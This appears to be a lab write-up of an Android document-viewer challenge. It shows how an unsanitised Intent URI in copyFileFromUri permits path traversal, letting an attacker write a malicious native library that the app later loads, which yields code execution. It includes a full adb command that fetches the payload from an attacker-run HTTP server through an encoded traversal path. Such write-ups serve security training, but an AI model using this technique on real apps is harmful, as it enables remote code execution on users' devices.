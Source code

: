 # Analysis
1. The app is load and render PDF file that chosen by the user.

2. The application `MainActivity.onCreate` is call 2 function.
![mainactivity](images/main.png)

3. The `handleIntent` is make the application able to received incoming `Intent` with action `android.intent.action.VIEW` and when the user try open PDF file from file manager or other app, this app will able to chose as pdf viewer.
![handleIntent](images/handleIntent.png)

4. The `loadProLibrary` is loaded shared object `libdocviewer_pro.so` inside app path `/data/data/com.mobilehackinglab.documentviewer/files/native-libraries/` and if the shared object is successfully loaded, it will set `proFeaturesEnabled` to `true`.
![loadProLibrary](images/load%20pro%20lib.png)

5. Inside the shared object `libdocviewer_pro.so`, we assumed there is a function named `initProFeatures` that will be called if `libdocviewer_pro.so` is successfully loaded, because there is constructor for this function but not exists in any class.
![native function initProFeatures](images/initProFeatures.png)

6. `handleIntent` function is called function `copyFileFromUri` from class `CopyUtil`, this function is to download file from Uri provided from `Intent` with specified content type `application/pdf` and saved as "download.pdf" if at the end url is not a filename with extension in it.
![handleIntent copyFileFromUri](images/handle%20intent%20and%20load.png)
![copyFileFromUri](images/copyFileFromUrl%20vuln%20code.png)

7. Inside `copyFileFromUri` is called function `CopyUtil$Companion$copyFileFromUri$1` which will created directory if the directory from uri provided from `Intent` is not exists.
![create directory](images/function%20mkdirs.png)

8. Function `copyFileFromUri` is vulnerable to `path traversal` becaused it's not sanitized the Uri path that provided user using `Intent`, which allow attacker to craft uri to download file malicious file.
![vuln path traversal](images/path%20traversal%20vuln.png)

9. Based on the analysis, we know to gained RCE is by creating malicious shared object and download the shared object file using function `copyFileFromUri` which can triggered using `Intent` and write to the path that will loaded by function `loadProLibrary.so`

# Exploitation
1. First time run the application, we can see the application is try to load library `libdocviewer_pro.so`.
![load lib not found](images/load%20pro%20so%20not%20found.png)

2. First created our malicious shared object in `Android Studio` with the code c++ as below.
![android cpp](images/android%20cpp.png)
![android cmake](images/android%20cmake.png)

3. Build the shared object by navigate to Build > Make Project and copy the builded so file into folder `www`.

4. To trigger `Intent` we use `am` command with malicious url that exploit the path traversal.
```sh
am start -a android.intent.action.VIEW -d "http://192.168.188.200:5000/..%2f..%2f..%2f..%2f..%2f..%2f..%2fdata%2fdata%2fcom.mobilehackinglab.documentviewer%2ffiles%2fnative-libraries%2farm64-v8a%2flibdocviewer_pro.so" -t application/pdf
```

5. But first, we create an HTTP server using Python Flask that returns the malicious shared object we just created, regardless of the path requested by the client.
![python server](images/run%20web%20server.png)

6. After run the `am` command in adb shell, chose the app.
![Chose app](images/chose%20app.png)

7. After successfully download our malicious shared object, in adb log will show error render pdf file that navigated to our exploit shared object path, which mean the application is success to download the file and write to path based on our payload.
![incoming http request](images/web%20server%20received%20request.png)
![error render](images/error%20render.png)

8. Rerun the application, and we'll see our malicious shared object is successfully loaded.
![malicous so loaded](images/malicious%20app%20loaded.png)

9. And check in app path and the system command successfully executed and created file based on our code for the shared object file.
![gained RCE](images/success%20write%20so.png)
